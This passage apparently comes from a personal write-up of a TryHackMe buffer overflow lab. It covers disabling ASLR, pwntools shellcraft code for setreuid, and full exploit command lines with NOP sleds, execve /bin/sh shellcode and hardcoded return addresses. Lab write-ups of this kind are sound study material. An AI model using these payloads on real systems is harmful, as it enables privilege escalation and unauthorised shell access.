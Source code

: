 ##### Outside GDB

Temporarely disable ASLR ([source](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)):
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

setarch `uname -m` -R /bin/bash
```

##### Error
`/bin/dash: 0: Can't open`
`����������������������������������`
`���1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAA`

Interesting additional resource [Slide 51](https://exploit.courses/files/bfh2017/day3/0x42_Exploit.pdf).

#### BOF1 - part 2

##### Generate the payload with pwn and shellcraft

The payload will conist of two parts:
1. Set the uid to user2 (1002)
2. Load a shell

```
from pwn import *
context.clear(arch='amd64')
asm(shellcraft.setreuid(1002))
python3 -c 'print("1\xfff\xbf\xea\x03jqXH\x89\xfe\x0f\x05", end="")' | xxd -ps
```

This will give you the following output `31c3bf66c2bfc3aa036a715848c289c3be0f05` that you need to turn into `\x..` format. You can use Notepad++ for that e.g.

Shell code will be: `6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05`.

##### local
./buffer-overflow $(python -c 'print "\x90" * 80 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * 45 + "\xc0\xe4\xff\xff\xff\x7f"')

##### THM server
./buffer-overflow $(python -c 'print("\x90" * 80 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * 45 + "\xa8\xe7\xff\xff\xff\x7f")')

./buffer-overflow $(python -c 'print("\x90" * 60 + "\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05" + "\x90" * 30 + "\xa8\xe7\xff\xff\xff\x7f")')

### Day 9 - Complete BOF1
